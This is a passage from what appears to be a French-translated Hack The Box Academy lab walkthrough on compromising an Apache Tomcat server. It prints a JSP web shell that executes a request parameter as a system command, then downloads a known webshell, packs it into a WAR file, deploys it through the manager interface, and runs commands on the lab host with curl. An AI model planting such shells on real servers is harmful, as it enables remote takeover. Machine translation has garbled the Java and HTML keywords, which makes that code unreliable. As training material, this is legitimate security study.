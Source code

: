 ```
         Processus p = Runtime.getRuntime().exec(request.getParameter("cmd"));
         OutputStream os = p.getOutputStream();
         InputStream in = p.getInputStream();
         DataInputStream dis = new DataInputStream(in);
         Chaîne disr = dis.readLine();
         tandis que ( disr != null ) {
                 out.println(disr);
                 disr = dis.readLine();
                 }
         }
%>
</pre>
</BODY></HTML>

```

```
dsgsec@htb[/htb]$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
dsgsec@htb[/htb]$ zip -r backup.war cmd.jsp

   ajout : cmd.jsp (dégonflé à 81 %)

```

Cliquez sur `Browse` pour sélectionner le fichier .war, puis cliquez sur `Deploy`.

![image](https://academy.hackthebox.com/storage/modules/113/mgr_deploy.png)

Ce fichier est chargé dans l'interface graphique du gestionnaire, après quoi l'application `/backup` sera ajoutée au tableau.

![](https://academy.hackthebox.com/storage/modules/113/war_deployed.png)

Si nous cliquons sur `backup`, nous serons redirigés vers `http://web01.inlanefreight.local:8180/backup/` et obtiendrons une erreur `404 Not Found` . Nous devons également spécifier le fichier `cmd.jsp` dans l'URL. La navigation sur `http://web01.inlanefreight.local:8180/backup/cmd.jsp` nous présentera un shell Web que nous pouvons utiliser pour exécuter des commandes sur le serveur Tomcat. À partir de là, nous pourrions mettre à niveau notre shell Web vers un shell inversé interactif et continuer. Comme dans les exemples précédents, nous pouvons interagir avec ce shell Web via le navigateur ou en utilisant `cURL` sur la ligne de commande. Essayez les deux !

```
dsgsec@htb[/htb]$ curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id

<HTML><BODY>
<FORM METHOD="GET" NAME="monformulaire" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="soumettre" VALUE="Envoyer">
</FORM>
<pré>
Commande : id<BR>
uid=1001(tomcat) gid=1001(tomcat) groupes=1001(tomcat)

</pre>
</BODY></HTML>

```
